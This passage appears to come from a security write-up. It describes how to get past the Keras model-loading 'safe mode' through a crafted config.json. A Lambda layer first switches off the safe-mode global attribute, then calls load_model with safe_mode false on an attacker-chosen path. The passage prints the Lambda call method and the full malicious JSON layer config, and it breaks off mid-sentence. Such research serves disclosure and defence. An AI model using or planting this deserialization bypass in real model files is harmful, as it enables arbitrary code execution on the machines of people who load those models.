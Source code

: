 ```python
def call(self, inputs, mask=None, training=None):
    kwargs = {k: v for k, v in self.arguments.items()}
    if self._fn_expects_mask_arg:
        kwargs["mask"] = mask
    if self._fn_expects_training_arg:
        kwargs["training"] = training
    return self.function(inputs, **kwargs)
```

The `kwargs` correspond to the `arguments` key in the `config.json`. The `inputs` parameter is passed when the layer is called and corresponds to the `inbound_nodes` key. I used the `kwargs` entry of `inbound_nodes` to pass the `inputs`, since the `args` type is restricted. The final call to the function is:

```python
set_global_attribute("safe_mode_saving", value=False)
```

**Step 2: Loading the model with safe mode disabled**

```json
{
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "unsafe_deserialization",
    "function": {
      "module": "keras.models",
      "class_name": "function",
      "config": "load_model",
      "registered_name": "function"
    },
    "arguments": {
      "safe_mode": false
    }
  },
  "build_config": {
    "input_shape": [null, 10]
  },
  "name": "unsafe_deserialization",
  "inbound_nodes": [
    {
      "args": [],
      "kwargs": {
        "inputs": "/tmp/provola/model.keras"
      }
    }
  ]
}
```

Together with the previous step, this bypasses the security checks imposed by safe mode. The `inputs` parameter represents the path of the model to be loaded. In code, the call appears as follows:
